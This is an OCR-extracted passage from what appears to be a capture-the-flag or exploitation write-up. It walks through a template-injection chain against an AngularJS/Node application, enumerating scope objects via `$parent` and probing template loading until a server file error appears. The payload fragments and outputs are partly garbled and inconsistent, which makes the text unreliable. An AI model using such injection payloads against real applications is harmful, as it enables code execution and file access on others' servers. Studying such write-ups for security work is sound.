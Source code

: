 ```json
	"console": {}
	}
```

And we've gotten it! 

###### 3. Directory Traversal 
Now that we've confirmed the structure, we can access it using `.` like a regular angular element. Let’s get the property names of the angular attributes, appending `.getOwnPropertyNames(global.angular)')()` to the previous payload. 

```json
[ "$$childTail", "$$childHead", "$$nextSibling", "$$watchers", "$$listeners", "$$listenerCount", "$$watchersCount", "$id", "$$ChildScope", "$parent", "$$prevSibling", "$$transcluded" 
```

Now we have the angular attributes. Let’s move further up the directory with the $parent, which refers to the $scope of the parent element, using `.getOwnPropertyNames(global.angular.$parent.$parent)')()`

We get a 
```json
[
	"$SCOPE",
	"$SCOPE"
	]
```

Which means that both are valid controllers (constructors). Let’s try to find the i18n object with `$parent.$parent.i18n`.

```json
[
	"$SCOPE",
	null
	]
```

Hmm, that’s not quite it. Let’s try taking a step back and move up one level with `$parent.i18n`.

```json
[
	"$SCOPE",
	{}
	]
```

And we’ve got it! We’re now in the `i18n` object as denoted by `{}`. We should be able to enumerate templates now, so let’s try appending a template to it.

By calling `/en.json`, it leads us to:

```json
[
	"$SCOPE",
	"Couldn't load template: Error: ENOENT: no such file or directory, open './en.json'"
	]
```
